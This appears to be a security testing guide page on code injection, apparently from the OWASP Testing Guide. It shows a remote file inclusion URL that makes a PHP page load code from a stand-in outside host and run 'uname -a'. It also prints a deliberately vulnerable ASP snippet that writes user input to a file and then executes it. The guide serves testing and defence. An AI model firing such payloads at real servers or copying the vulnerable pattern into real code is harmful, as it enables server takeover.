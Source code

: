 Summary
-------

This section describes how a tester can check if it is possible to enter code as input on a web page and have it executed by the web server.

In [Code Injection](Code_Injection "wikilink") testing, a tester submits input that is processed by the web server as dynamic code or as an included file. These tests can target various server-side scripting engines, e.g.., ASP or PHP. Proper input validation and secure coding practices need to be employed to protect against these attacks.

How to Test
-----------

### Black Box testing

#### Testing for PHP Injection vulnerabilities

Using the querystring, the tester can inject code (in this example, a malicious URL) to be processed as part of the included file:

`http://www.example.com/uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a`

**Result Expected:**

The malicious URL is accepted as a parameter for the PHP page, which will later use the value in an included file.

### Gray Box testing

#### Testing for ASP Code Injection vulnerabilities

Examine ASP code for user input used in execution functions. Can the user enter commands into the Data input field? Here, the ASP code will save the input to a file and then execute it:

`<%`\
`If not isEmpty(Request( `“`Data`”` ) ) Then`\
`Dim fso, f`\
`'User input Data is written to a file named data.txt`\
`Set fso = CreateObject(`“`Scripting.FileSystemObject`”`)`\
`Set f = fso.OpenTextFile(Server.MapPath( `“`data.txt`”` ), 8, True)`\
`f.Write Request(`“`Data`”`) & vbCrLf`\
`f.close`\
`Set f = nothing`\
`Set fso = Nothing`

`'Data.txt is executed`\
`Server.Execute( `“`data.txt`”` )`

`Else`\
`%>`\

<form>
<input name="Data" /><input type="submit" name="Enter Data" />\

</form>
`<%`\
`End If`\
`%>)))`

References
----------

-   Security Focus - <https://www.securityfocus.com>

<!-- -->

-   Insecure.org - <https://www.insecure.org>

<!-- -->

-   Wikipedia - <https://www.wikipedia.org>

<!-- -->

-   Reviewing Code for [OS Injection](OS_Injection "wikilink")

\

